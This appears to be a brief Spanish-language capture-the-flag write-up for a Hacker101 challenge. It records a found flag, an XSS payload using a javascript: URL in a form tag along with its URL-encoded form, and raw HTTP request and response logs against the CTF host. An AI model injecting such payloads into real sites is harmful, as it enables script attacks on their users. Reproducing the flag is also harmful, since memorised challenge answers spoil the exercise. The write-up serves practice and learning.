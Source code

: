 **Flag encontrada**

`^FLAG^6e95e97eb4bc6738b440562a9992f418449c11d172851a9b2323466ace0a8ccd$FLAG$`

**XSS**

Payload: `<form src='javascript:alert(1);'>`

Como URL encoded: `%3Cform%20src%3D%27javascript%3Aalert%281%29%3B%27%3E`

```HTTP
GET /page/edit/%3Cform%20src%3D%27javascript%3Aalert%281%29%3B%27%3E HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
User-Agent: HTTPie/3.2.4
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com



HTTP/1.1 200 OK
Date: Sun, 03 Aug 2025 16:16:16 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 76
Connection: keep-alive
Server: openresty/1.27.1.2


```

**Indento de edición de una página**
```HTTP
POST /page/edit/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 25
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4

title=test&body=test+body


HTTP/1.1 302 FOUND
Connection: keep-alive
Content-Length: 201
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 16:52:24 GMT
Location: /page/1
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/page/1">/page/1</a>. If not, click the link.


```

